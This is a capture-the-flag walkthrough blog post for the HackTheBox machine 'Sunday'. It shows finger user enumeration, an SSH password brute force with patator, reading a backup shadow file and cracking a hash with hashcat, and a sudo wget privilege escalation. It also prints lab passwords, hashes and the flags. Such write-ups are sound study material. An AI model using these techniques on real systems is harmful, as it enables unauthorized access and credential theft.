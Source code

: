 ```yaml
---
layout: post
title: HackTheBox - Sunday
date: 2021-01-04 12:13:03 +0100
tags: [HackTheBox]
image: /assets/img/htb/machines/linux/easy/sunday/Sunday.png
---
```


## Foothold

### `nmap` scan

{% highlight bash %}
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sunday-full-port-scan.txt 10.10.10.76
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 09:27 CET
Warning: 10.10.10.76 giving up on port because retransmission cap hit (1).
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 20.79% done; ETC: 09:27 (0:00:19 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.11s latency).
Not shown: 64580 filtered ports, 950 closed ports
PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
41462/tcp open  unknown
49906/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
{% endhighlight %}

### finger (port 79)

We can use pentestmonkey's script [finger-user-enum.pl](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) to do our enumeration:

![finger users top usernames](/assets/img/htb/machines/linux/easy/sunday/finger-users.png)

Okay, we know there iis at least 5 users:

1. **root**
2. **admin**
3. **adm**
4. **mysql**
5. **user**

While figuring out what to do next on [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger), I ran `finger-user-enum.pl` a second time with a bigger wordlist:

> We could also use **metasploit** with `use auxiliary/scanner/finger/finger_users`.

{% highlight bash %}
$ ./finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -t $TARGET
{% endhighlight %}

![finger users more usernames](/assets/img/htb/machines/linux/easy/sunday/finger-users-2.png)

From the screenshot above, we can notice tree things:

1. We got more valid usernames
2. The user `sunny` seems to have been connected from a remote IP address `10.10.10.4`
3. The user `root` seems to have been connected from the local machine `sunday`

### SSH (port 22022)

#### Bruteforce old SSH with `patator`

Probably due to an exchange algorithm error, we'll use `patator` instead of using `hydra` to bruteforce ssh.

{% highlight bash %}
$ patator ssh_login host=$TARGET port=22022 user=sunny password=FILE0 0=/usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed
.' --timeout=5
{% endhighlight %}

Valid credentials found/guessed:
- **username**: `sunny`
- **password**: `sunday`

## User (sunny)

{% highlight bash %}
$ ssh -p 22022 sunny@$TARGET
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@$TARGET
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
{% endhighlight %}

There is another user called `sammy` who has a home directory:

{% highlight bash %}
sunny@sunday:~$ cd ..
sunny@sunday:/export/home$ ls -la
total 8
drwxr-xr-x  4 root  root   4 2018-04-15 20:18 .
drwxr-xr-x  3 root  root   3 2018-04-15 19:44 ..
drwxr-xr-x 18 sammy staff 27 2020-07-31 18:00 sammy
drwxr-xr-x 18 sunny other 30 2018-04-15 20:52 sunny
{% endhighlight %}

Let's run `sudo -l`:

{% highlight bash %}
sunny@sunday:/tmp$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
{% endhighlight %}

Since we can only execute it, I will not spend time on it _(for the moment)_.

On `/`, there is `backup` directory which we have access to:

{% highlight bash %}
sunny@sunday:/tmp$ cd /backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-07-31 17:59 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636:::::
{% endhighlight %}

> `$5$` is for SHA-256 hash.

###  "Cracking" sammy's password with `hashcat`

According to the manpage of `hashcat`, **7400** is SHA-256 mode:

![74400 sha256 unix](/assets/img/htb/machines/linux/easy/sunday/man-hashcat.png)

![hashcat](/assets/img/htb/machines/linux/easy/sunday/hashcat.png)

Sammy's password is `cooldude!`.

## User (sammy)

![sammy ssh](/assets/img/htb/machines/linux/easy/sunday/sammy-ssh.png)

- flag:

{% highlight bash %}
sammy@sunday:~$ cd Desktop
sammy@sunday:~/Desktop$ cat user.txt
a3d9498027ca5187ba1793943ee8a598
{% endhighlight %}

- `sudo -l`:

{% highlight bash %}
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~/Desktop$
{% endhighlight %}

Let's check `wget` on [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/) to see how we can privesc:

![wget gtfobins](/assets/img/htb/machines/linux/easy/sunday/wget-gtfobins.png)

We cannot use it to privesc! 

Even if we can download a malicious file and then execute it, it will not be done as **root** but as **sammy**. This is because of the pipe  (`|`) as you can see on the image below:

![reverse shell failed](/assets/img/htb/machines/linux/easy/sunday/reverse-shell-failed.png)

However there are other things that we can probably do.

1. We can **read** every file: 

![/etc/shadow](/assets/img/htb/machines/linux/easy/sunday/etc-shadow.png)

2. We can **overwrite** the `/root/troll` binary

## Root

![root](/assets/img/htb/machines/linux/easy/sunday/root.png)

- flag:

{% highlight bash %}
root@sunday:~# cd /root
root@sunday:/root# cat root.txt
fb40fab61d99d37536daeec0d97af9b8
{% endhighlight %}
___

## Useful links

- [pentestmokey - finger enum](https://github.com/pentestmonkey/finger-user-enum)
- [hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)
- [Hashcat - example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)